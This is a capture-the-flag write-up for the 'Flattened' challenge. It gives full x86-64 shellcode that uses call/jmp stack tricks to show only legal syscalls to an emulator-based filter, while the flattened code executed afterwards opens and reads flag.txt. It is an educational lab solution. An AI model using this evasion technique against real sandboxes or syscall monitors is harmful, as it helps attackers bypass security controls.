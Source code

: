 
# Flattened

## Preface
It turns out there is a much [simpler solution](https://ctftime.org/writeup/31124) to the challenge, that relies on self-modifying shellcode (I could have sworn I tried this).
This writeup explains a more complicated solution, taking a different approach.
It has the advantage of not requiring memory that is both writeable and executable.

## Overview

### Challenge Overview

The challenge features a program that receives shellcode as input, which it then executes.
The catch is that the program first removes all branching instructions from the shellcode before executing it and aborts on illegal system calls (syscalls).
We need to supply it with shellcode that passes (or bypasses) this filter in order to retrieve the flag.


### Approach Overview
Our approach works by creating shellcode that passes the filter, but when the branching instructions are removed, the semantics change in order to retrieve the flag.

## Challenge
After receiving the shellcode, the challenge first simulates it with [qilling](https://github.com/qilingframework/qiling) (we refer to this as the _simulation phase_).
All instructions that are executed during the simulation phase are inserted into a buffer, with the exception of branching instructions (`jmp`, `call`, `ret`, etc.)
We refer to the shellcode in this buffer, as the _flattened_ shellcode.
If an _illegal syscall_ is encountered during simulation, that is, a syscall for which register `rax` is neither 1 (`write`) nor 60 (`exit`), the simulation phase aborts and the challenge ends.
Otherwise, the instructions are executed on the host, which we refer to as the _execution phase_.

## Approach

We start with the stock shellcode for retrieving the flag from a file named "flag.txt".
The following shellcode opens the file named "flag.txt", reads its content to a buffer, prints this buffer to `STDOUT` and exists.
These steps are achieved by using the syscalls `open`, `read`, `write` and `exit`, respectively.
```asm
global    _start
section   .text

_start:
; --- open file "flag.txt" ---
mov rax, 2 ; code for syscall "open"
xor rsi, rsi ; "flags" argument is "read-only"
push word 0x7478 ; write file name "flag.txt" to stack
push word 0x742e 
push word 0x6761
push word 0x6c66 
lea rdi, [rsp] ; ptr argument to file name
mov [rdi+8], rsi ; null byte at end of file name
xor rdx, rdx ; file mode (only applicable when creating a new file (I think))
syscall ; open file

; --- read file ---
mov rdi, rax ; move file descriptor, returned from "open" syscall, to "fd" argument for "read"
mov rsi, rsp ; use stack for read buffer
xor rdx, rdx 
mov dl, 128 ; read length
mov rax, 0 ; code for syscall "read"
syscall ; read flag

; --- write the flag ---
mov rdx, rax ; move num chars, returned from "read" syscall to "count" argument for "write"
xor rdi, rdi 
mov dil, 1 ; STDOUT fd
xor rax, rax 
mov al, 1 ; code for syscall "write"
syscall ; write flag

; --- exit ---
mov rdi, 1 ; exit code
mov rax, 60 ; code for syscall "exit"
syscall ; exit
```
This shellcode will not pass the filters, because it contains two illegal syscalls:
`rax=2` (`open`) and `rax=0` (`read`)

We need to change the shellcode so that it passes the filters during simulation, but still retrieves the flag during execution.
We achieve this by exploiting the fact that branching instructions are removed during the simulation phase.
In other words, during the simulation phase, only legal syscalls will be encountered (three writes and an exit).
Then, by flattening the shellcode, the semantics change so that the flag is retrieved instead.

We achieve this in the following way.
The `call` instruction pushes the address of the next instruction to the stack.
This is necessary for function calls, so that control-flow can continue from where the function was called, after its completion.
This instruction is removed by the challenge and will therefore not exists in the flattened shellcode.
Therefore, during simulation we have a different value at the top of stack than during execution.
To assign a specific value to a register, depending on whether we are in simulation or execution phase, we use the following pattern.
Say we want to assign the value `x` to the register `rax` during simulation and `y` during execution.
```asm
push y ; value for execution
push rsp
call _call1
dd x ; value for simulation
_ret1:
mov rax, [rsp]
mov rax, [rax]
...
_call1:
jmp _ret1
```
During simulation, the `call` instruction pushes the address of the `x` "instruction" to the stack (its fine if this is an illegal instruction, since it will not be executed in either simulation or execution).
Then, it branches to `_call1`, but just to jump back immediately.
At this point we have:  
`rsp --> < x insn addr> --> < x >`
Therefore, the instructions below will load `x` into `rax`.
```asm
mov rax, [rsp]
mov rax, [rax]
```

On the other hand, during execution, the flattened shellcode will be executed (note, `dd x` is not included, since it was not executed during simulation):
```asm
push y ; value for execution
push rsp
mov rax, [rsp]
mov rax, [rax]
...
```
Therefore, we have:  
`rsp --> < some addr > --> y`
In this case, the instructions below will load `y` into `rax`.
```asm
mov rax, [rsp]
mov rax, [rax]
```
Therefore, we have successfully loaded a different value into a register depending on whether we are in simulation phase or execution phase.


We will mainly use this technique to set `rax=1` during simulation and `rax=2` / `rax=0` during execution.
However, we also need this technique to ensure we pass sensible arguments to the different syscalls, in both simulation and execution.

The final shellcode follows.

```asm
global    _start
section   .text

_start:
; --- open file "flag.txt" ---
push 2 ; code for syscall "open" (execution)
push rsp 
call _call1
dd 1 ; code for syscall "write" (simulation)
_ret1:
mov rax, [rsp]
mov eax, [rax]
xor rsi, rsi ; "flags" argument "read-only" (execution) / It seems a buffer of NULL for write is acceptable (simulation)
push word 0x7478 ; write file name "flag.txt" to stack
push word 0x742e
push word 0x6761
push word 0x6c66
lea rdi, [rsp] ; ptr argument to file name
mov [rdi+8], rsi ; null byte at end of file name
push rdi ; pointer to filename for "open" (execution)
push rsp 
call _call2
db 01 ; STDOUT for "write" (simulation)
times 7 db 00
_ret2:
mov rdi, [rsp]
mov rdi, [rdi] 
xor rdx, rdx ; open "mode" (execution) / write "count" (simulation) (0, so nothing will be written)
syscall ; open file (execution) / write "" (simulation)


; --- read file ---
mov rdi, rax ; move file descriptor, returned from "open" syscall, to "fd" argument for "read" (execution) / move num bytes written (0) to rdi (simulation) 
mov rsi, rsp ; use stack for buffer
xor rdx, rdx 
push 0 ; code for syscall "read" (execution)
push rsp 
call _call3
db 01 ; code for syscall "write" (simulation)
times 7 db 00
_ret3:
mov rax, [rsp]
mov rax, [rax]
push 128 ; size for "read" (execution)
push rsp 
call _call4
times 8 db 0 ; size for "write" (simulation)
_ret4:
mov rdx, [rsp]
mov rdx, [rdx]
push rdi ; file descriptor for "read" from "open" (execution)
push rsp
call _call5
db 01 ; STDOUT file descriptor for "write" (simulation)
times 7 db 00
_ret5:
mov rdi, [rsp]
mov rdi, [rdi]
syscall ; read file (execution) / write "" (simulation)


; Since the "write" and "exit" syscalls are legal, we can use the stock shellcode from here.
; --- write the flag ---
mov rdx, rax ; move num chars, returned from "read" syscall to "count" argument for "write"
xor rdi, rdi
mov dil, 1 ; STDOUT fd
xor rax, rax
mov al, 1 ; code for syscall "write"
syscall ; write flag

; --- exit ---
mov rdi, 1 ; exit code
mov rax, 60 ; code for syscall "exit"
syscall ; exit

_call1:
jmp _ret1
_call2:
jmp _ret2
_call3:
jmp _ret3
_call4:
jmp _ret4
_call5:
jmp _ret5
```
